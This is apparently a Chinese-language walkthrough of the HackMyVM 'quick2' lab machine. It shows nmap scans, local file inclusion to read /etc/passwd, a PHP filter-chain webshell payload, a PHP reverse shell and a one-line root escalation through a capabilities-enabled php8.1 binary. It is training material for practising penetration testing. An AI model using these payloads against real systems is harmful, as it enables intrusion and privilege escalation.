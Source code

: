```yaml
---
title: quick2
tags:
  - sec
date: 2024-02-09T09:33:26
lastmod: 2025-09-29T20:51:57
toc: "true"
draft: "false"
---
```


启动靶机前
![HMM_quick2_image_1|700](https://img.l1uyun.one/HMM_quick2_image_1.png)
启动后
![HMM_quick2_image_2|650](https://img.l1uyun.one/HMM_quick2_image_2.png)
192.168.10.4
![HMM_quick2_image_3|600](https://img.l1uyun.one/HMM_quick2_image_3.png)
2024-02-14-20:18:39
后面都是直接用 arp-scan 来扫描某一个网卡的下的局域网ip 了
## 端口扫描
![HMM_quick2_image_4|700](https://img.l1uyun.one/HMM_quick2_image_4.png)

```bash
sudo nmap 192.168.10.4 -p22,80 -Pn -sT -sV -O -sC -oA  portscan/nmap
```


![HMM_quick2_image_5|750](https://img.l1uyun.one/HMM_quick2_image_5.png)

```bash
sudo nmap 192.168.10.4 -sT -Pn -p20,80 --script=vuln -oA  portscan/vuln
```

![HMM_quick2_image_6|700](https://img.l1uyun.one/HMM_quick2_image_6.png)
## web 服务

主页里面在端口扫描的时候发现有一个参数 page
尝试 local file include LFI
获取到了/etc/passwd
在 home 目录下有文件夹的有这两个用户

```bash
andrew:x:1000:1000: Andrew Speed:/home/andrew:/bin/bash
nick:x:1001:1001: Nick Greenhorn,,,:/home/nick:/bin/bash
```

获得了 user. txt

![HMM_quick2_image_7|500](https://img.l1uyun.one/HMM_quick2_image_7.png)

![HMM_quick2_image_8|483](https://img.l1uyun.one/HMM_quick2_image_8.png)


进行目录扫描 ferox 发现失效了, 以后还是先尝试 gobuster, 不行的话再 feroxbuster
![HMM_quick2_image_9|750](https://img.l1uyun.one/HMM_quick2_image_9.png)
进入 file. php 页面
## 利用 php 伪协议获得一个 webshell
写了是 LFI 漏洞
![HMM_quick2_image_10|479](https://img.l1uyun.one/HMM_quick2_image_10.png)
2024-02-14-20:40:27
这个工具是看大佬的 wp 视频知道了, 反正以后遇到使用 php 伪协议的, 就可以用这个工具了

使用工具生成一个复杂的伪协议利用代码，获得一个 webshell

```bash
python php_filter_chain_generator.py --chain "<?php echo system($_GET['cmd']) ?>"
```

![HMM_quick2_image_11|700](https://img.l1uyun.one/HMM_quick2_image_11.png)

![HMM_quick2_image_12|900](https://img.l1uyun.one/HMM_quick2_image_12.png)

测试之后发现存在 nc，但是不能用
只能 php 反向 shell 了, 上传一下, 然后执行

![HMM_quick2_image_13|900](https://img.l1uyun.one/HMM_quick2_image_13.png)

![HMM_quick2_image_14|800](https://img.l1uyun.one/HMM_quick2_image_14.png)
## php 反向 shell 获得立足点
![HMM_quick2_image_15](https://img.l1uyun.one/HMM_quick2_image_15.png)

![HMM_quick2_image_16](https://img.l1uyun.one/HMM_quick2_image_16.png)

```bash
a=php%20/tmp/shell.txt
```
![HMM_quick2_image_17](https://img.l1uyun.one/HMM_quick2_image_17.png)

## 利用 capabilities 文件提权
第一步先上脚本, linpeas. sh, 然后发现了这个特殊权限的文件 php
```bash
/usr/bin/php8.1
```
![HMM_quick2_image_18](https://img.l1uyun.one/HMM_quick2_image_18.png)
```bash
/usr/bin/php8.1 -r "posix_setuid(0);system('/bin/sh');"
```
![HMM_quick2_image_19](https://img.l1uyun.one/HMM_quick2_image_19.png)

## 尝试其他思路
尝试爆破一下密码, 但是没成功
根据后面获得的 shadow 文件也没有破解出对应的密码


